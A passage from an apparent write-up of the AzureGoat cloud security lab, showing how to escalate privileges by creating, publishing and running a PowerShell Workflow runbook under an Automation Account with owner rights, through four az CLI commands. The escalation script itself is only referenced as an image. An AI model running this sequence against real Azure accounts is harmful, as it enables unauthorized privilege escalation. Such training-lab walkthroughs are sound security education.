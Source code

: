 This looks like an attractive vector for any malcious actor, and we will attempt to weaponise this by creating a `PowershellwWorkflow` [runbook](https://learn.microsoft.com/en-us/azure/automation/automation-powershell-workflow) to be executed by the Automation Account, as doing so will allow us to execute commands under the context of `owner` as per the role assignments.

## Abusing Runbooks to Escalate Privileges  
Similar to how we abused Lambda in AWSGoat to escalate our privileges, we will write a Powershellworkflow and save it to the target machine as `escalation.ps1` code before creating, updating, publishing, and finally, running the runbook.  

![escalation_ps1](/assets/images/azure/escalation_ps1.jpg)  

```
az automation runbook create --automation-account-name "dev-automation-account-appazgoatxxxxxx" -g azuregoat_app --name "dev-vm-test" --type "PowerShellWorkflow" --location "East US"
az automation runbook replace-content --automation-account-name dev-automation-account-appazgoatxxxxxx --resource-group azuregoat_app --name dev-vm-test --content @escalation.ps1
az automation runbook publish --automation-account-name dev-automation-account-appazgoatxxxxxx --resource-group azuregoat_app --name dev-vm-test
az automation runbook start --automation-account-name dev-automation-account-appazgoatxxxxxx1 --resource-group azuregoat_app --name dev-vm-test
```
![runbook_replace_publish_start](/assets/images/azure/runbook_replace_publish_start.jpg)  
